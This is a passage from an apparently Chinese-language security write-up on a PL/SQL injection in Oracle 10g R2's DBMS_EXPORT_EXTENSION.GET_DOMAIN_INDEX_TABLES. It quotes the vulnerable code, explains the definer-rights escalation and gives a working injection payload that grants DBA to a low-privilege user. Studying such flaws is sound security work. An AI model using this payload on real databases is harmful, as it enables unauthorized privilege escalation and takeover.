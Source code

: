 ### 2. GET_DOMAIN_INDEX_TABLES

> 影响版本：Oracle Database <= 10g R2 (未打补丁的情况下)
> 
> 测试环境：
> Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit
> 
> 权限要求：
> + `CREATE SESSION`

这个利用的是PL/SQL Injection来提升权限

#### (1)原理

先来看`SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES`这个函数的定义：

``` sql
FUNCTION GET_DOMAIN_INDEX_TABLES (  
TYPE_NAME IN VARCHAR2,  
TYPE_SCHEMA IN VARCHAR2,  
...
BEGIN  
IF GET_TABLES = 1 THEN  
GETTABLENAMES_CONTEXT := 0;
...
ELSE  
STMTSTRING :=  
'BEGIN ' ||  
'"' || TYPE_SCHEMA || '"."' || TYPE_NAME ||  
'".ODCIIndexUtilCleanup(:p1); ' ||  
'END;';  
DBMS_SQL.PARSE(CRS, STMTSTRING, DBMS_SYS_SQL.V7);  
DBMS_SQL.BIND_VARIABLE(CRS,':p1',GETTABLENAMES_CONTEXT);  
DUMMY := DBMS_SQL.EXECUTE(CRS);  
DBMS_SQL.CLOSE_CURSOR(CRS);  
STMTSTRING := '';
...
```

可以看到当`GET_TABLES != 1`时，`TYPE_NAME`和`TYPE_SCHEMA`被直接动态拼接进PL/SQL语句中并执行

由于这个函数是以`definer`权限来执行的，所以我们注入的语句也会以SYS权限来执行

因此我们构造语句，传入参数`TYPE_NAME`：

``` sql
DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to test2'''';END;'';END;--
```

我本地用pl/sql手动打印看一下：

![1609687277665.png](https://i.loli.net/2021/03/06/kj5eSl3XYrNuA7D.png)

可以看到已经构造出了完整的赋权语句，并将后面多余的语句注释掉
